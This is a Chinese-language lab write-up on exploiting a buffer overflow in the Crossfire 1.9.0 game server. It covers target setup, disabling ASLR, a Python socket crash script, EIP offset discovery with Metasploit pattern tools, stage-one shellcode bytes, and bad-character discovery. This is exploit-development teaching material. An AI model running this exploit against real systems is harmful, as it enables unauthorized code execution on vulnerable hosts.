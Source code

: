 ```yaml
---
title: 缓冲区溢出案例（三）
categories:
- buffer overflow
tags:
- buffer overflow
---
```


参考资料：[kali linux之edb--CrossFire缓冲区溢出](https://blog.csdn.net/zixuanfy/article/details/52578072)

Crossfire 1.9.0在接受socket连接的时候，有着bof漏洞。

## 搭建靶机

```
mkdir /usr/games    
#必须在该目录下运行crossfire，否则程序会报错
#Cannot open bmaps file /usr/games/crossfire/share/crossfire/bmaps: No such file or directory

cd /usr/games;wget www.offensive-security.com/crossfire.tar.gz;tar zxpf crossfire.tar.gz

cd crossfire/bin

gdb /usr/games/crossfire/bin/crossfire
run

---
当程序提示溢出错误的时候，可以运行run，输入y，重新调试程序

当需要重新运行的时候，可以结束进程重新运行。
pgrep crossfire | xargs kill -s 9
---
关闭ASLR
echo 0 > /proc/sys/kernel/randomize_va_space
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/1.PNG)

`Waiting for connections...`

面板最后出现了这样的语句，代表程序正常运行。

## （exp.py demo）让程序报错
开始调试bof漏洞
```
#!/usr/bin/python
import socket
host = "目标IP"
crash="\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
data=s.recv(1024)
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/2.PNG)
程序报错，段错误，返回地址被`0x41`填充

## 定位缓冲区大小
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379`

修改python脚本，crash="pattern_create生成的字符串"

运行后得到一个地址，`0x46367046`
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/3.PNG)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046

[*] Exact match at offset 4368
```
缓冲区长度为4379，EIP地址为为4368后的4字节。

## 测试是否找到EIP地址
修改python脚本`crash="\x41" * 4368 + "B"*4 + "C"*7`

确保报错的是0x42424242，表示EIP地址被字符B所覆盖。确认找到了EIP指令寄存器的位置。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/4.PNG)

## 找出shellcode占用的空间
edb 

运行linux平台，图形化界面的调试器。图形化界面方便同时观察所有寄存器的状态。

点击图中的run按钮，运行crossfire程序，然后运行exp.py让程序报错。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/6.PNG)

在崩溃的时候，我们再次检查任何可能帮助我们找到buffer的寄存器。

选中EAX寄存器，右键 follow in dump，即可跳转到EAX所指地址。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/7.PNG)

在这个案例中，EAX寄存器看起来指向buffer的起始位置，包含了字符串“setup sound ”

但是EAX寄存器没有直接跳转到缓冲区（缓冲区的起始地址以A字符串开头），这可能会影响执行exp，导致失败。

在这种情况下，跳转到EAX可能实际上对我们有用。 但是，这不是一个很好的解决方案。 咱们试试更难的方案。

## 提高exp可用性
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/8.PNG)

看起来ESP寄存器指向了缓冲区的C地址，在崩溃的时候，没有给我们足够的空间放置shellcode。不像之前的slmail bof案例, 在程序崩溃之后，只写入了“cccccccc”这么几个字符。这暗示着我们，只能把shellcode放置在大小为4368的缓冲区之中。

然而，在崩溃时，我们可以使用ESP寄存器指向的字节，来创建第一个阶段的shellcode。它可以使得ESP寄存器与缓冲区的A字符起始位置对齐，跳过字符串“setup sound"

为了达到这个目的，我们第一阶段的shellcode将会需要添加12比特给EAX寄存器，然后跳转到EAX。让我们看看这个shellcode demo是怎样的。

```
nasm_shell 汇编指令转十六进制

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
add eax,12
jmp eax
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/5.PNG)

然后写成16进制即可。幸运的是，这两个指令只用了5字节的内存——`\x83\xc0\x0c\xff\xe0`

## 发现坏字符
和[上一篇](https://whale3070.github.io/buffer%2520overflow/2020/01/15/03-x/)类似，发送[exp.py](https://raw.githubusercontent.com/Whale3070/ctf-coding/master/badchar-bof.py)

注意crash中exp的写法，`crash= badchars + "\x41" * 4368`

第一段是坏字符，目的是检查是否有badchar截断后续的字符。
第二段目的是覆盖返回地址，使得程序报错，方便调试。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/9.PNG)

点击图中的EBP寄存器，extended base pointer，它总是指向栈底。右键follow in dump，来跳转到EBP指向的地址。

发现有规律的字符`01 02 03 04 05 06 07 08`，失去了`09`，说明它是坏字符。

删除exp.py中 `\x09`，重复以上操作。发现坏字符`\x0a`

删除exp.py中 `\x0a`，重复以上操作。发现坏字符`\x20`

`\x00\x09\x0a\x20`   是坏字符

badchar坏字符跟操作系统、程序有关，不同的系统运行坏字符可能并不相同。

